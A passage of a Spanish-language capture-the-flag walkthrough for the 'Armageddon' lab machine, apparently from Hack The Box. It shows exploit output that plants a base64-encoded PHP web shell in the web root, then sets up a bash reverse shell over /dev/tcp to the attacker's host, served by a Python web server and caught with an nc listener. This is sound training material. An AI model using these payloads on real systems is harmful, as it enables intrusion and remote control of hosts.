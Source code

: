 ```bash
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>> whoami; id; ip a
apache
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:9c:f5 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.233/24 brd 10.10.10.255 scope global noprefixroute ens192
       valid_lft forever preferred_lft forever
    inet6 dead:beef::69d1:bb00:780c:f997/64 scope global noprefixroute dynamic 
       valid_lft 86393sec preferred_lft 14393sec
    inet6 fe80::7648:5ea1:5371:b3b5/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

Dado que nos encontramos en la shell que nos proporciona el `script`, trataremos de obtener una consola `bash`. Para ello, el método que realizaremos es realizar una petición con `cURL` a nuestro script en `Bash` para lograr obtener la Reverse Shell.

Verificamos que el binario de `cURL` se encuentra instalado en el equipo objetivo.

```bash
armageddon.htb>> which curl
/usr/bin/curl
```

Desde otra terminal nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

En nuestro equipo loca, deberemos de disponer del siguiente script en `Bash` que es el que utilizaremos para obtener la Reverse Shell. El script lo compartiremos mediante un servidor web.

```bash
❯ cat shell.sh
#!/bin/bash

/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/443 0>&1'
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
